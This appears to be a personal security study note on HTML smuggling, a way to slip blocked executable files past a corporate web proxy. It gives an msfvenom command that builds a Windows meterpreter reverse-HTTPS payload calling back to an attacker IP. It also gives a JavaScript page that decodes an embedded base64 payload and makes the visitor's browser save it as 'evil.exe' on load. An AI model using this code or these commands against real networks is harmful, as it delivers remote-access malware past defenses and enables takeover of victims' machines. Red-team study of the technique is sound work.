 ```yaml
---
creation date: December 21st 2022
last modified date: December 21st 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[HTML Smuggling]]  
___

## Description:  
File smuggling is a technique that allows bypassing proxy blocks for certain file types that the user is trying to download. For example if a corporate proxy blocks .exe files from being downloaded via the browser, this is the technique you can use to smuggle those files through.

Create your payload and then base64 encode it:
```
kali@kali:~$ sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.119.120 LPORT=443 -f exe -o /var/www/html/msfstaged.exe

kali@kali:~$ base64 /var/www/html/msfstaged.exe
```

insert our base64 encoded payload into the variable "file" (I had to snip it but your base64 will probably be extremely big):
```
<!-- code from https://outflank.nl/blog/2018/08/14/html-smuggling-explained/ -->
<html>
    <body>
        <script>
            function base64ToArrayBuffer(base64) {
            var binary_string = window.atob(base64);
            var len = binary_string.length;
            
            var bytes = new Uint8Array( len );
                for (var i = 0; i < len; i++) { bytes[i] = binary_string.charCodeAt(i); }
                return bytes.buffer;
            }

            // 32bit simple reverse shell
            var file = 'TVqQAAMAAAAEAAAA//8AALgAAAAAAAAAQAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA6AAAAA4fug4AtAnNIbgBTM0hVGhpcyBwc..................';
            var data = base64ToArrayBuffer(file);
            var blob = new Blob([data], {type: 'octet/stream'});
            var fileName = 'evil.exe';

            if (window.navigator.msSaveOrOpenBlob) {
                window.navigator.msSaveOrOpenBlob(blob,fileName);
            } else {
                var a = document.createElement('a');
                console.log(a);
                document.body.appendChild(a);
                a.style = 'display: none';
                var url = window.URL.createObjectURL(blob);
                a.href = url;
                a.download = fileName;
                a.click();
                window.URL.revokeObjectURL(url);
            }
        </script>
    </body>
</html>
```

*window.navigator.msSaveBlob method is used to make the technique work with Microsoft Edge as well*
___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: December 21st 2022 (03:07 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
